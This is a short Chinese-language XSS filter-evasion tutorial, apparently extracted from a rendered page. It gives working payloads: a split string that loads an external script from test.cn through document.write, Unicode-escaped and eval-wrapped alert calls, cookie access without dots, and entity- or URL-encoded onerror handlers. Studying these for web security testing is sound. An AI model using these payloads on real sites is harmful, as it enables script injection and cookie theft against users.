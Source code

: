 ```javascript
<script>z='<script src=';/*

*/z+='test.c';/*

*/z+='n/1.js><0/script>';/*

*/document.write(z)</script>
```

最终执行

```
<script>

z='undefined<script src=test.cn/1.js></script>';

document.write(z)

</script>
```

#### 避开过滤：脚本代码

有些过滤器可能阻止javascript关键字和表达式，有用的字符，比如引号、括号和圆点。

**Unicode转义**

```javascript
<script>a\u006cert(1)</script>
```

如果能够使用eval命令，就能够将其它命令以字符串的格式传送给eval，从而执行其它 命令。

```javascript
<script>eval('a\u006cert(1)');</script>
```

**替代圆点**

```javascript
<script>alert(document['cookie'])</script>
<script>with(document)alert(cookie)</script>
```

**没有过滤&和#**


```在 HTML 属性中，会自动对实体字符进行转义。一个简单的比方。
<img src="1" onerror="alert(1)">
和
<img src="1" onerror="alert&#x28;1&#x29;">

是等效的

pyload
<img src="1" onerror="alert&#x28;1&#x29;">
还可以将上面pyload进行url编码
<img src="1" onerror="alert%26%23x28%3b1%26%23x29%3b">
```
